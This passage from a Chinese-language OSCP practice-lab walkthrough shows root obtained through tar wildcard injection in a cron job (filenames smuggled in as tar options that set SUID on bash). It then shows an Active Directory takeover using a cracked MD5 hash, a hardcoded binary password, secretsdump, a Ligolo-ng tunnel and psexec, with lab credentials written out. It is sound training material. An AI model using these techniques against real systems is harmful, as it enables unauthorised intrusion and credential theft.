    Jun  4 13:32:01 oscp CRON[1454]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)
    ```
    
    確認自己對該備份目錄 `/opt/admin` 的寫入權限：
    ```bash
    sh-5.1$ ls -dl /opt/admin
    ls -dl /opt/admin
    drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
    ```
    
    建立 3 個特殊參數名稱的檔案：
    ```bash
    sh-5.1$ cd /opt/admin
    cd /opt/admin

    sh-5.1$ echo 'chmod u+s /bin/bash' > shell.sh
    echo 'chmod u+s /bin/bash' > shell.sh

    sh-5.1$ chmod +x shell.sh
    chmod +x shell.sh

    sh-5.1$ touch -- '--checkpoint=1'
    touch -- '--checkpoint=1'

    sh-5.1$ touch -- '--checkpoint-action=exec=sh shell.sh'
    touch -- '--checkpoint-action=exec=sh shell.sh'
    ```
    
    等待 cron job 自動觸發（利用 `*` 萬用字元展開會將這些特殊檔名解析為 tar 參數的特性，進而執行 `shell.sh`），發現 `/bin/bash` 成功被賦予 SUID：
    ```bash
    ls -l /bin/bash
    -rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash

    .........

    ls -l /bin/bash
    -rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
    ```
    
    以特權模式執行取得 root Shell：
    ```bash
    sh-5.1$ /bin/bash -p
    /bin/bash -p
    whoami
    root
    ```
    
*   **取得 local.txt 與 proof.txt**：
    ```bash
    find / -name local.txt 2>/dev/null
    /home/cassie/local.txt
    ```
    ```bash
    find / -name proof.txt 2>/dev/null
    /root/proof.txt
    ```

---

# AD 網域部分

### 192.168.x.153 (MS01)


*   **域成員主機登入 (MS01)**：使用先前 NXC 爆破成功的網域帳密 `Eric.Wallows:EricLikesRunning800` 連線 SSH 登入主機 MS01，並在使用者目錄下發現可疑檔案 `admintool.exe`：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ ssh 'Eric.Wallows'@192.168.173.153
    Eric.Wallows@192.168.173.153's password: 
    Microsoft Windows [Version 10.0.19044.2251]

    oscp\eric.wallows@MS01 C:\Users\eric.wallows>dir
     Directory of C:\Users\eric.wallows
    11/21/2022  05:49 AM         6,102,702 admintool.exe
    06/04/2026  06:09 PM            59,392 nc.exe
    ```

    > [!info] **💡 補充方法：IIS Partner 資料庫洩漏與 MD5 破解**
    > 除了使用已知的網域帳密直接登入外，也可以透過 Web 服務列舉方式獲取初始帳號 `support` 登入：
    > 1.  **目錄列舉**：對 IIS 8000 port 進行 `feroxbuster` 目錄列舉，發現 `/partner/db` 備份檔：
    >     ```bash
    >     ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    >     └─$ feroxbuster --url http://192.168.173.153:8000 -t 50 -s 200
    >     200      GET        7l       38w    16406c http://192.168.173.153:8000/partner/db
    >     ```
    > 2.  **讀取資料庫**：將該 db 檔下載後以 `sqlite3` 開啟，取得用戶密碼的 MD5 hashes：
    >     ```bash
    >     ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    >     └─$ sqlite3 db
    >     sqlite> select * from partners;
    >     id  name     password                          desc                            
    >     --  -------  --------------------------------  --------------------------------
    >     1   ecorp    7007296521223107d3445ea0db5a04f9  -                               
    >     2   support  26231162520c611ccabfb18b5ae4dff2  support account for internal use
    >     ```
    > 3.  **離線 MD5 破解**：使用 `hashcat` 破解 `support` 帳戶的 MD5 密碼，成功還原明文為 **`Freedom1`**：
    >     ```bash
    >     ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    >     └─$ hashcat -m 0 26231162520c611ccabfb18b5ae4dff2 /usr/share/wordlists/rockyou.txt 
    >     ...
    >     26231162520c611ccabfb18b5ae4dff2:Freedom1
    >     ```
    > 4.  **憑證驗證**：使用 `nxc` 驗證其可成功以 `support:Freedom1` 登入 SSH：
    >     ```bash
    >     ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    >     └─$ nxc ssh 192.168.173.153 -u support -p Freedom1           
    >     SSH         192.168.173.153 22     192.168.173.153  [+] support:Freedom1 (Pwn3d!) with UAC - Windows - Shell access!
    >     ```


*   **逆向 admintool.exe 獲取憑證**：嘗試執行 `admintool.exe` 並輸入空密碼，程式發生 panic 斷言失敗並洩漏了明文密碼的哈希值比對：
	```powershell
	oscp\eric.wallows@MS01 C:\Users\eric.wallows>.\admintool.exe
	error: The following required arguments were not provided:
	    <CMD>
	
	USAGE:
	    admintool.exe <CMD>
	
	For more information try --help
	
	oscp\eric.wallows@MS01 C:\Users\eric.wallows>.\admintool.exe whoami
	Enter administrator password:
	
	thread 'main' panicked at 'assertion failed: `(left == right)`
	  left: `"d41d8cd98f00b204e9800998ecf8427e"`,
	 right: `"05f8ba9f047f799adbea95a16de2ef5d"`: Wrong administrator password!', src/main.rs:78:5
	note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
	```
    
    > [!info] **兩組雜湊值分析與解密**
    > - 兩組 hash `d41d8cd98f00b204e9800998ecf8427e`、`05f8ba9f047f799adbea95a16de2ef5d` 丟到 `hash-identifier`，發現是 MD5。
    > - 解密後為 `left:''` (輸入的空值) 及 `right:December31`，推測應該是通過比較 `(left == right)` 來驗證，`December31` 應該是實際明文密碼。
    
    亦可將 `admintool.exe` 拉回 Kali，使用 `strings` 分析以直接獲取明文密碼：**`December31`**：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ strings admintool.exe | grep password
    administratorDecember31Enter administrator password:
    Wrong administrator password!
    ```
    
    使用 `nxc` 驗證，確認 `administrator:December31` 為 MS01 本地管理員：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ nxc smb 192.168.173.153 -u administrator -p December31 --local-auth
    SMB         192.168.173.153 445    MS01             [+] MS01\administrator:December31 (Pwn3d!)
    ```

*   **進一步憑證竊取與內網穿透**：使用域管理員本機憑證執行 `impacket-secretsdump`，發現 DefaultPassword 洩漏了域帳密 `oscp.exam\celia.almeda:7k8XHk3dMtmpnC7`：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ impacket-secretsdump administrator:December31@192.168.173.153
    ...
    [*] DefaultPassword 
    oscp.exam\celia.almeda:7k8XHk3dMtmpnC7
    ```
    
    以管理員身份登入 MS01，檢查 PowerShell 的歷史紀錄：
	```powershell
	┌──(kali㉿kali)-[~/Desktop/OSCP C]
	└─$ ssh administrator@192.168.173.153
	** WARNING: connection is not using a post-quantum key exchange algorithm.
	** This session may be vulnerable to "store now, decrypt later" attacks.
	** The server may need to be upgraded. See https://openssh.com/pq.html
	administrator@192.168.173.153's password: 
	Microsoft Windows [Version 10.0.19044.2251]
	(c) Microsoft Corporation. All rights reserved.
	
	administrator@MS01 C:\Users\Administrator>whoami
	ms01\administrator
	
	administrator@MS01 C:\Users\Administrator>powershell
	Windows PowerShell
	Copyright (C) Microsoft Corporation. All rights reserved.
	
	Try the new cross-platform PowerShell https://aka.ms/pscore6
	
	PS C:\Users\Administrator> (Get-PSReadLineOption).HistorySavePath                                                          
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	
	PS C:\Users\Administrator> cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	C:\users\support\admintool.exe hghgib6vHT3bVWf cmd
	C:\users\support\admintool.exe cmd
	shutdown /r /t 7
	(Get-PSReadLineOption).HistorySavePath
	cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	```
    推測執行腳本參數中的 **`hghgib6vHT3bVWf`** 應為另一個高權限帳號的明文密碼。

*   **搭建內網穿透隧道 (Ligolo-ng)**：
    *   **Kali 端啟動 Proxy**：
        ```bash
        ┌──(kali㉿kali)-[~/Desktop/ligolo/proxy]
        └─$ sudo ./proxy -selfcert
        ```
    *   **MS01 端啟動 Agent 隧道**：
        ```powershell
        PS C:\Users\Administrator> .\agent.exe -connect 192.168.45.180:11601 -ignore-cert
        ```
    *   **Kali 端設定路由**：
        ```bash
        ┌──(kali㉿kali)-[~/Desktop/OSCP C] 
        └─$ sudo ip tuntap add dev ligolo mode tun 
        ┌──(kali㉿kali)-[~/Desktop/OSCP C]
        └─$ sudo ip link set ligolo up
        ┌──(kali㉿kali)-[~/Desktop/OSCP C]
        └─$ sudo ip route add 10.10.133.0/24 dev ligolo
        ```

---

### 內網域接管 (10.10.133.0/24)

*   **內網偵察掃描**：透過隧道對內網主機 `10.10.133.152` 與 `10.10.133.154` 進行連接埠掃描：
    ```bash
    # 10.10.133.152 開啟 53, 88 (Kerberos), 135, 139, 389, 445 (域控 DC01)
    # 10.10.133.154 開啟 135, 139, 445, 1433 (MS-SQL), 5985 (WinRM)
    ```

*   **橫向移動內網主機 (MS02)**：使用 `nxc` 並配合先前獲得的管理員密碼 `hghgib6vHT3bVWf` 進行 local-auth 驗證，成功登入 `10.10.133.154` (MS02) 本地管理員：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ nxc winrm 10.10.x.0 -u administrator -p hghgib6vHT3bVWf --local-auth
    WINRM       10.10.133.154   5985   MS02             [+] MS02\administrator:hghgib6vHT3bVWf (Pwn3d!)
    ```

*   **域控制器接管 (DC01)**：使用管理員憑證對 MS02 執行 `secretsdump`，提取出域管理員的預設明文密碼：**`OSCP.exam\Administrator:7Tg9M9MZbzAokR9`**：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ impacket-secretsdump administrator:hghgib6vHT3bVWf@10.10.133.154
    ...
    [*] DefaultPassword 
    OSCP.exam\Administrator:7Tg9M9MZbzAokR9
    ```
    
    最後在 Kali 端直接以該域管憑證透過 `psexec` 登入域控 `10.10.133.152` (DC01)，成功取得整個網域的最高 SYSTEM 控制權限與最終 `proof.txt`：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ impacket-psexec Administrator:7Tg9M9MZbzAokR9@10.10.133.152
    Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Requesting shares on 10.10.133.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file SKbtwrHI.exe
    [*] Opening SVCManager on 10.10.133.152.....
    [*] Creating service tbIi on 10.10.133.152.....
    [*] Starting service tbIi.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.2746]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

    C:\Windows\system32> powershell
    PS C:\Windows\system32> ls C:\users -file -i proof.txt -r -ea 0


        Directory: C:\users\Administrator\Desktop


    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    -a----         6/4/2026   5:48 PM             34 proof.txt
    ```


